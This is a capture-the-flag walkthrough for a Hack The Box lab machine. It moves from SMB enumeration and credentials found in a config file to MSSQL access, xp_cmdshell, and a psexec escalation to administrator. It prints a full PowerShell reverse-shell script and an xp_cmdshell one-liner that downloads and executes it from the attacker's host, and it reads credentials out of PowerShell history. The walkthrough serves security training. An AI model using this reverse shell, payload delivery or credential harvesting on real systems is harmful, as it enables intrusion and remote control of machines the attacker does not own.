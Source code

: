 ## Packages required

Make sure your system is equipped with python3, git, smbclient, ncat, nmap, utf

>> sudo apt-get python3-pip python3-venv git smbclient ncat nmap, utf

Connect to the machine using open vpn:

>> sudo openvpn /path/to/your/file.ovpn

Verify if you're connected to the vpn tunnel by pinging the target machine

>> ping 10.10.10.27

--------------------------------------------------------------------------
# Information gathering:

>> nmap -sV -Pn -T4 10.10.10.27

You'd see couple of ports exposed, the most promising being 445 (smb) and 1433 (sql server).

We will target port 445 Server Message Block, using smbclient

>> smbclient -L \\10.10.10.27

Getting regular user access -

Great, there are two available shares with read access:

IPC$: this hidden share is a special share used for inter-process communication. It doesn’t allow one to access files or directories like other shares, but rather allows one to communicate with processes running on the remote system.

backups: a normal share with read access. It lacks a comment which means it could contain interesting data if we’re able to connect to it. 

>> smbclient \\\\10.10.10.27\\backups

Go ahead and explore the directory using `ls` and you'll notice a production configuration file `prod.dtsConfig`. Lets transfer that file to our local machine.

>> get prod.dtsConfig /home/<user>/Desktop/secret

>> cd /home/<user>/Desktop
>> cat secret
--------------------------------------------------------------------------
# Began exploit

On inspecting the file, you can see the username and password for the user.

We can use this information further, to connect to the SQL Server, and for this we’ll be using the `mssqlclient.py` script from the Impacket toolkit. 

>> sudo git clone https://github.com/SecureAuthCorp/impacket.git
>> cd impacket
>> sudo pip3 install .
>> cd examples
>> python3 mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth

We insert the password found previously and we're in.
Next up, we run a query to find out if we have the highest privileges:

>> SELECT IS_SRVROLEMEMBER ('sysadmin')

The output of the query should be 1 (= true), confirming that we have sysadmin privileges.

Now we can enable the `xp_cmdshell`, to spawn a Windows command shell and pass in a string for execution, to gain Remote Command Execution.

>> EXEC sp_configure 'Show Advanced Options', 1;
>> reconfigure;
>> sp_configure;
>> EXEC sp_configure 'xp_cmdshell', 1
>> reconfigure;
>> xp_cmdshell "whoami"

After a bit of research I found we can host a file containing the reverse shell script locally and then get the SQL server to connect to our machine.

Save the following script as `reverse_shell.ps1`. Also make note of the ip address for $client. Since we're using open vpn, we'd be required to use that ip and port instead.

$client = New-Object System.Net.Sockets.TCPClient("10.10.16.19",443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + "# ";
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()};
$client.Close()

Open up a new terminal to set up a python http server to host the reverse shell script:

>> python3 -m http.server 80

Open up another terminal to start a netcat listening session on port 443:

>> nc -vnlp 443

Please note if you have your ufw firewall enabled in your VM, you'll need to change the rules to allow incoming requests to ports 80 and 443:

>> ufw allow from 10.10.10.27 proto tcp to any port 80, 443

Heading back to the terminal with sql server, execute the following one-liner:

>> xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.16.19/reverse_shell.ps1\");"

And head back to the netcat listener to see if the shell spawned. If the script executed successfully, you should be able to see a shell there.

--------------------------------------------------------------------------
# Pwing the user account

Once you can confirm the you've accessed the shell via user account `sql_svc`, start exploring the directory.

>> whoami #should display sql_svc
 
The `user.txt` file containing the user flag is at the `sql_svc` user's desktop, so we just read the file:

>> cd C:\Users\sql_svc\Desktop
>> type user.txt

Copy the hashcode and head over to your htb dashboard to submit it.

--------------------------------------------------------------------------
# Pwing the root account

In order to get the root flag, we'll need to the root access i.e Administrator alias `nt authority\system`.
 
As this `sql_svc` account is a service account, it's good practice to check for recently accessed files and executed commands. 
To do so in PowerShell, we can insert the command below in our reverse shell:

>> type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

You should be able to see the administrative credentials.

Finally we will use another script from the Impacket package `psexec` located under `Impacket/examples`

>> python3 psexec.py administrator@10.10.10.27

Provide the password when prompted, and do a quick `whoami` check to verify the access..

Headover to the Desktop to access the `root.txt` file for root flag. 

>> type root.txt

Copy the hash code and submit.